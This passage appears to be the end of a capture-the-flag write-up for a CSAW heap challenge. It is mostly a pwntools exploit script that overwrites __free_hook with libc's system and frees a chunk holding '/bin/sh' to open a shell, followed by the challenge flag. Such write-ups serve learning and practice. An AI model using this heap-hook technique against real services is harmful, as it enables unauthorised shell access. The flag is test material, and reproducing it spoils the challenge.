 ```python 
p.sendlineafter(b'modify:\n', b'1') 
p.sendlineafter(b'content:\n', b'64')
p.sendlineafter(b'Enter the content:\n', p64(free_hook) + b'a' * 16)

p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'1') # 2
p.sendlineafter(b'item:\n', b'80')

p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'1') # 3
p.sendlineafter(b'item:\n', b'80')

p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'3')
p.sendlineafter(b'modify:\n', b'3') 
p.sendlineafter(b'content:\n', b'64')
p.sendlineafter(b'Enter the content:\n', p64(libc.sym['system']))

p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'3')
p.sendlineafter(b'modify:\n', b'2') 
p.sendlineafter(b'content:\n', b'64')
p.sendlineafter(b'Enter the content:\n', b'/bin/sh\0')


p.sendlineafter(b'>\n', b'1')
p.sendlineafter(b'>\n', b'2')
p.sendlineafter(b'remove:\n', b'2')

p.interactive()

# csawctf{_d0es_Borat_aPpr0ve_oF_tH3_n3w_SsH?}


```

## Flag 

csawctf{_d0es_Borat_aPpr0ve_oF_tH3_n3w_SsH?}
